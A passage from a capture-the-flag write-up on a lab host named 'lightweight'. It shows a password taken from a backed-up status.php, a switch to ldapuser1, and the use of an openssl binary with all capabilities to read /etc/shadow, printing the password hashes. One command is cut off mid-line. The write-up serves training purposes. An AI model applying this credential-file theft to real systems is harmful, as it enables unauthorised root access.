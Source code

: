 ```
```

We have a backup of the web application source code and `status.php` contains credentials:

```php
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
```

We can then `su` to `ldapuser1` with that password:

```
[10.10.14.23@lightweight ~]$ su -l ldapuser1
Password: 
Last login: Tue Dec 11 02:01:07 GMT 2018 on pts/1
[ldapuser1@lightweight ~]$ ls 
capture.pcap  ldapTLS.php  openssl  tcpdump
```

### Final privesc 

Checking caps again, we see the `openssl` binary in the current directory has caps set:

```
[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```

The `=ep` caps means the all capabilities are assigned to the file. We can read `/etc/shadow` with openssl by encrypting it to a file in our home directory, then decrypting it:

```
-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
[ldapuser1@lightweight ~]$ ./openssl aes-256-cbc -d -a -in shadow.enc -out shadow
enter aes-256-cbc decryption password:
[ldapuser1@lightweight ~]$ cat shadow
root:$6$eVOz8tJs$xpjymy5BFFeCIHq9a.BoKZeyPReKd7pwoXnxFNOa7TP5ltNmSDsiyuS/ZqTgAGNEbx5jyZpCnbf8xIJ0Po6N8.:17711:0:99999:7:::
[...]
ldapuser1:$6$OZfv1n9[v$2gh4EFIrLW5hZEEzrVn4i8bYfXMyiPp2450odPwiL5yGOHYksVd8dCTqeDt3ffgmwmRYw49c]MFueNZNOoI6A1.:17691:365:99999:7:::
ldapuser2:$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1:17691:365:99999:7:::
10.10.14.2:clJFBL7EDs1H6:17851:0:99999:7:::
10.10.14.13:qehr2qxjyEzkw:17874:0:99999:7:::
10.10.14.26:syd74YenpBuf6:17875:0:99999:7:::
10.10.14.12:pdfLwDAqvvWI2:17876:0:99999:7:::
10.10.14.23:owYEfkaBVoeFI:17876:0:99999:7:::
```
